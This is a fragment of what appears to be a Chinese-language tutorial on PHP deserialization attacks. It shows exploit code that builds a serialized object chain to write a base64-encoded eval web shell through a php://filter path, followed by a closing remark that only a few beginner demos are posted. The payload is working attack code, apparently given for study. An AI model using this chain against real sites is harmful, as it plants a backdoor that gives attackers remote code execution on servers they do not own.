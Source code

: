```

    $this->complete=base64_encode("123".base64_encode('<?php @eval($_POST[1]);?>'));

    $this->autosave = false;

  }

}

class B{

  public $options=array();

  public function __construct(){

    $this->options['prefix']='php://filter/write=convert.base64-decode/resource=';

    $this->options['serialize']='base64_decode';

    $this->options['data_compress']=false;

  }

  

}

$a=new A();

echo urlencode(serialize($a));
```

 

写在最后，这篇文章是很早之前写的了，部分exp找不到了，也很简单，就只贴几个入门的demo加上部分分析吧

 